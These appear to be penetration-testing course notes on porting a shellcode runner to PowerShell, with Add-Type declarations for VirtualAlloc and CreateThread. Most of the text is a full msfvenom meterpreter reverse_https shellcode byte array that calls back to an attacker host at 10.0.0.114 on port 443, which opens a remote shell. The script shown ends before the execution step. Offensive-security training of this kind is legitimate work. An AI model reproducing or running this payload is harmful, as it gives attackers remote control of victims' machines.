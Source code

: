 ## Porting Shellcode Runner to PowerShell

```
VirtualAlloc    - Allocate executable Memory
RtlMoveMemory   - copy shellcode to the newly allocated memory region
CreateThread    - execute shellcode 
```

`RltMoveMemory` can't be use in PowerShell. In PowerShell we can use `System.Runtime.InteropServices.Marshal` 

**`run.ps`** PowerShell script with `Add-Type`

```powershell
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;
public class Kernel32 {
 [DllImport("kernel32")]
 public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint
flAllocationType, uint flProtect);
 [DllImport("kernel32", CharSet=CharSet.Ansi)]
 public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint
dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr
lpThreadId);
}
"@

Add-Type $Kernel32

# msfvenom -p windows/meterpreter/reverse_https LHOST=10.0.0.114 LPORT=443 EXITFUNC=thread -f ps1
[Byte[]] $buf = 0xfc,0xe8,0x8f,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xd2,0x64,0x8b,0x52,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x31,0xff,0x8b,0x72,0x28,0xf,0xb7,0x4a,0x26,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0xc1,0xcf,0xd,0x1,0xc7,0x49,0x75,0xef,0x52,0x57,0x8b,0x52,0x10,0x8b,0x42,0x3c,0x1,0xd0,0x8b,0x40,0x78,0x85,0xc0,0x74,0x4c,0x1,0xd0,0x8b,0x48,0x18,0x50,0x8b,0x58,0x20,0x1,0xd3,0x85,0xc9,0x74,0x3c,0x49,0x31,0xff,0x8b,0x34,0x8b,0x1,0xd6,0x31,0xc0,0xc1,0xcf,0xd,0xac,0x1,0xc7,0x38,0xe0,0x75,0xf4,0x3,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe0,0x58,0x8b,0x58,0x24,0x1,0xd3,0x66,0x8b,0xc,0x4b,0x8b,0x58,0x1c,0x1,0xd3,0x8b,0x4,0x8b,0x1,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x58,0x5f,0x5a,0x8b,0x12,0xe9,0x80,0xff,0xff,0xff,0x5d,0x68,0x6e,0x65,0x74,0x0,0x68,0x77,0x69,0x6e,0x69,0x54,0x68,0x4c,0x77,0x26,0x7,0xff,0xd5,0x31,0xdb,0x53,0x53,0x53,0x53,0x53,0xe8,0x3e,0x0,0x0,0x0,0x4d,0x6f,0x7a,0x69,0x6c,0x6c,0x61,0x2f,0x35,0x2e,0x30,0x20,0x28,0x57,0x69,0x6e,0x64,0x6f,0x77,0x73,0x20,0x4e,0x54,0x20,0x36,0x2e,0x31,0x3b,0x20,0x54,0x72,0x69,0x64,0x65,0x6e,0x74,0x2f,0x37,0x2e,0x30,0x3b,0x20,0x72,0x76,0x3a,0x31,0x31,0x2e,0x30,0x29,0x20,0x6c,0x69,0x6b,0x65,0x20,0x47,0x65,0x63,0x6b,0x6f,0x0,0x68,0x3a,0x56,0x79,0xa7,0xff,0xd5,0x53,0x53,0x6a,0x3,0x53,0x53,0x68,0xbb,0x1,0x0,0x0,0xe8,0x41,0x1,0x0,0x0,0x2f,0x67,0x6f,0x53,0x56,0x50,0x56,0x61,0x31,0x52,0x6d,0x4c,0x73,0x70,0x4f,0x32,0x6c,0x6a,0x75,0x42,0x66,0x4f,0x51,0x4d,0x72,0x41,0x4b,0x6a,0x43,0x50,0x34,0x68,0x4f,0x49,0x36,0x31,0x55,0x54,0x71,0x79,0x39,0x48,0x61,0x73,0x74,0x73,0x66,0x7a,0x52,0x32,0x55,0x54,0x47,0x36,0x57,0x5f,0x64,0x41,0x49,0x37,0x34,0x6e,0x50,0x41,0x6b,0x38,0x43,0x42,0x77,0x62,0x43,0x44,0x33,0x57,0x48,0x49,0x48,0x70,0x6a,0x58,0x62,0x7a,0x73,0x63,0x43,0x43,0x66,0x78,0x37,0x66,0x54,0x38,0x4f,0x42,0x6c,0x44,0x39,0x57,0x72,0x72,0x33,0x74,0x6c,0x45,0x6e,0x6d,0x31,0x49,0x4f,0x6d,0x39,0x41,0x41,0x55,0x73,0x65,0x4b,0x30,0x6e,0x71,0x34,0x78,0x4c,0x72,0x6b,0x70,0x70,0x70,0x39,0x4f,0x54,0x4b,0x35,0x4e,0x63,0x34,0x6e,0x50,0x5a,0x7a,0x4b,0x32,0x6f,0x4e,0x30,0x59,0x63,0x72,0x36,0x5f,0x49,0x42,0x44,0x65,0x4f,0x4a,0x76,0x6c,0x63,0x53,0x55,0x51,0x6c,0x2d,0x42,0x5f,0x72,0x53,0x70,0x68,0x73,0x46,0x59,0x35,0x79,0x77,0x5f,0x0,0x50,0x68,0x57,0x89,0x9f,0xc6,0xff,0xd5,0x89,0xc6,0x53,0x68,0x0,0x32,0xe8,0x84,0x53,0x53,0x53,0x57,0x53,0x56,0x68,0xeb,0x55,0x2e,0x3b,0xff,0xd5,0x96,0x6a,0xa,0x5f,0x68,0x80,0x33,0x0,0x0,0x89,0xe0,0x6a,0x4,0x50,0x6a,0x1f,0x56,0x68,0x75,0x46,0x9e,0x86,0xff,0xd5,0x53,0x53,0x53,0x53,0x56,0x68,0x2d,0x6,0x18,0x7b,0xff,0xd5,0x85,0xc0,0x75,0x14,0x68,0x88,0x13,0x0,0x0,0x68,0x44,0xf0,0x35,0xe0,0xff,0xd5,0x4f,0x75,0xcd,0xe8,0x47,0x0,0x0,0x0,0x6a,0x40,0x68,0x0,0x10,0x0,0x0,0x68,0x0,0x0,0x40,0x0,0x53,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x53,0x89,0xe7,0x57,0x68,0x0,0x20,0x0,0x0,0x53,0x56,0x68,0x12,0x96,0x89,0xe2,0xff,0xd5,0x85,0xc0,0x74,0xcf,0x8b,0x7,0x1,0xc3,0x85,0xc0,0x75,0xe5,0x58,0xc3,0x5f,0xe8,0x6b,0xff,0xff,0xff,0x31,0x30,0x2e,0x30,0x2e,0x30,0x2e,0x31,0x31,0x34,0x0,0xbb,0xe0,0x1d,0x2a,0xa,0x68,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x3c,0x6,0x7c,0xa,0x80,0xfb,0xe0,0x75,0x5,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x0,0x53,0xff,0xd5

$size = $buf.Length
```

[https://youtu.be/N-7_JaEi1As?list=PLAXVYHMta5d4foizpSMGP9W3vFAo-9kCe&t=4767]: #